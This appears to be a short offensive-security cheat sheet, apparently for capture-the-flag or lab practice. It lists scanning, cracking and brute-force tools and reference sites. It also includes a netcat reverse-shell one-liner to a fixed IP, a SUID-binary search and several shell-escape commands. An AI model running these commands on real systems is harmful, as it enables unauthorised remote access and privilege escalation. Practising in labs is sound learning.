 Tools
=====

Scanning
--------

-   nmap
-   rustscan
-   masscan
-   nikto

Directories
-----------

-   gobuster
-   zap
-   burp

Strings
-------

-   haiti - guess hash algorithm
-   codetective - find encoding algorithm
-   john
-   ssh2john

Brute-force
-----------

-   hydra
-   wpscan

Escalation
----------

-   linuxprivchecker

OSINT
-----

-   GHunt

Scripts
=======

-   `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
-   `nmap --script=smb-enum-shares ...`
-   `rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f`
-   `grep "^j" rockyou.txt | grep "^[a-Z0-9\-\_]*$" | perl -e 'print sort { length($a) <=> length($b) } <>' > j-names.txt`

Spawing a shell
===============

-   python - `python -c 'import pty; pty.spawn("/bin/sh")'`
-   sh - `echo os.system('/bin/bash')`
-   sh - `/bin/sh -i`
-   perl - `perl —e 'exec "/bin/sh";'`
-   perl - `perl: exec "/bin/sh";`
-   ruby - `ruby: exec "/bin/sh"`
-   lua - `lua: os.execute('/bin/sh')`
-   IRB - `exec "/bin/sh"`
-   vi - `:!bash`
-   vi - `:set shell=/bin/bash:shell`
-   nmap - `!sh`

Websites
========

-   https://gtfobins.github.io/ - binary exploits
-   https://blackarch.org/tools.html - blackarch tools and descriptions
-   https://netsec.ws/?p=337 - various ways to spawn a shell
-   http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
-   https://book.hacktricks.xyz/linux-unix/privilege-escalation
-   https://github.com/swisskyrepo/PayloadsAllTheThings
